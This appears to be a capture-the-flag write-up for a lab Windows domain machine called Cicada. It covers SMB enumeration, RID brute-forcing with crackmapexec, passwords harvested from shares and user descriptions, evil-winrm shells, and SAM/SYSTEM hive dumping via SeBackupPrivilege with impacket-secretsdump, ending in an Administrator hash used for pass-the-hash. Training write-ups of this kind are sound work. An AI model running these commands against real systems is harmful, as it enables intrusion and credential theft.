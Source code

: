 # Cicada

### Reconnaissance

**port 53**



**port 445**

Found two shares, HR and DEV. Anonymous access is enabled but no directory listing is avalable for dev

HR shows a document for a new hire listing their password but no user account. It also mentions a `support` 
account, but it doesn't appear to be a valid username

Brute force user rids with `crackmapexec`

`crackmapexec smb 10.10.11.35 -d 10.10.11.35 -u 'guest' -p '' --rid-brute`

![users](./img/smb_users.png)

Users:

CICADA\john.smoulder -> pass not valid  
CICADA\sarah.dantelia -> pass not valid  
CICADA\michael.wrightson -> `Cicada$M6Corpb*@Lp#nZp!8` default pass works, rpcclient to enumerate other users  
CICADA\david.orelious -> `aRt$Lp#7t*VQ!3` in description using rpcclient with michael's creds  
CICADA\emily.oscars -> `Q!3@Lp#M6b*7t*Vt` in script on DEV share accessed using david's creds  

user:[Administrator] rid:[0x1f4]  
user:[Guest] rid:[0x1f5]  
user:[krbtgt] rid:[0x1f6]  
user:[john.smoulder] rid:[0x450]  
user:[sarah.dantelia] rid:[0x451]  
user:[michael.wrightson] rid:[0x452]  
user:[david.orelious] rid:[0x454]  
user:[emily.oscars] rid:[0x641]  

Get a reverse shell as emily.oscars with `evil-winrm`

Running `whoami /priv` shows we have SeBackupPrivilege which can be used to dump the sam and system hives

`reg save hklm\sam C:\Temp\sam`
`reg save hklm\system C:\Temp\system`

Download and dump hashes

`impacket-secretsdump -sam sam -system system LOCAL`

Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::

Get a reverse shell as Administrator using the NTLM hash and evil-winrm

### Lessons Learned

- Users with `SeBackupPrivilege` can dump the sam and system hives to dump hashes:
```
reg save hklm\sam sam
reg save hklm\system system

# Dump on attacker box
impacket-secretsdump -sam sam -system system LOCAL
```